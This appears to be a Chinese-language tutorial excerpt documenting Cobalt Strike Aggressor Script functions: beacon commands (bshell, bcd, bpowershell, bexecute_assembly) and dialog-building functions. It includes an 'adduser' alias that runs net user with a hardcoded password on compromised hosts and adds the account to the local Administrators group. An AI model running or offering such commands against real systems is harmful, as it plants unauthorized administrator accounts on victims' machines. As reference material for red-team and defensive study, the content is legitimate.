
##### 在beacon中运行cmd命令：bshell

- Ask Beacon to run a command with cmd.exe

- ```
    $1 bid数组或单个bid
    $2  命令字符串
    
    alias adduser {
    	bshell($1, "net user $2 B00gyW00gy1234! /ADD");
    	bshell($1, "net localgroup \"Administrators\" $2 /ADD");
    }
    ```

#####  切换becaon的shell的当前目录：bcd

- ```
    $1 bid数组或单个bid
    $2  命目录字符串
    
    # create a command to change to the user's home directory
    alias home {
    	$home = "c:\\users\\" . binfo($1, "user");
    	bcd($1, $home);
    }
    ```

##### 导入ps1文件到beacon中：bpowershell_import

##### 执行poweshell命令：bpowershell

##### 传递exe文件并执行：bexecute_assembly

输入，输出框

#### 输入框-dialog

```shell
定义一个输入框 
$dialog = dialog("这是对话框的标题", %(username => "root",password => ""),  &show); 
#在一些时候，我们想整一个输入框。让用户输入一些东西的时候，可以使用 dialog 数据模型进行编写，他需要接受三个参数
`$1` 对话框的名称
`$2` 对话框里面的内容，可以写多个
`$3` 回调函数，当用户使用 dbutton_action 会调用的函数，$1 is a reference to the dialog. $2 is the button name. $3 is a dictionary that maps each row's name to its value.
```

drow_text是往输入框里面写东西，语法如下：

```shell
drow_text($dialog,"默认输入","文本框前面的话");
$1 - a $dialog 对象
$2 - the name of this row
$3 - the label for this row
$4 - Optional. The width of this text field (in characters). This value isn't always honored (it won't shrink the field, but it will make it wider).
```
